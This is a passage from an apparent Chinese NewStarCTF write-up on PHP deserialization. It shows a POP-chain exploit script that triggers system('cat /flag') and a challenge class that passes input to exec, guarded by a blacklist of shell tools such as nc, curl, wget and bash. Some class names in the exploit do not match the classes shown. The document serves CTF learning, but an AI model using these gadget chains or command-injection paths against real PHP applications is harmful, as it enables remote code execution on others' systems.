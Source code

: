```php

class CTF{
    public $handle;

    public function end()
    {
        unset($this->handle->log);
    }

}

class WhiteGod{
    public $func = "system";
    public $var = "cat /flag";
    public function __unset($var)
    {
        ($this->func)($this->var);    
    }
}

$a = new GlobalWhiteGod();
$b = new GlobalCTF();
$c = new GlobalHandle();
$d = new GlobalSuper();
$e = new GlobalThen();
$f = new GlobalBegin();

$b->handle = $a;
$c->obj = $b;
$d->obj = $c;
$e->func = $d;
$f->name = $e;

echo serialize($f);
```

![image-20231020172542884](2023-10-20-NewStarCTF反序列化.assets/image-20231020172542884.png)





## R!!!C!!!E!!!

### 题目代码

```php
highlight_file(__FILE__);
class minipop{
    public $code;
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            exec($this->code);
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}
```